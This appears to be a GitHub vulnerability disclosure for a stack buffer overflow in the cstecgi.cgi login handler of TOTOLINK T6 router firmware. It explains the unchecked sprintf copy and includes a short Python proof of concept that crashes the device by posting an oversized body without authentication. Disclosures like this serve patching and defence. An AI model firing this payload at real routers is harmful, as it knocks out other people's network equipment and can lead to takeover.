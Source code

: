 # TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login&flag=1` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## Normal Operational Status
![postman-normal](./postman-normal.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login&flag=1', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.

![gdb](gdb.png)
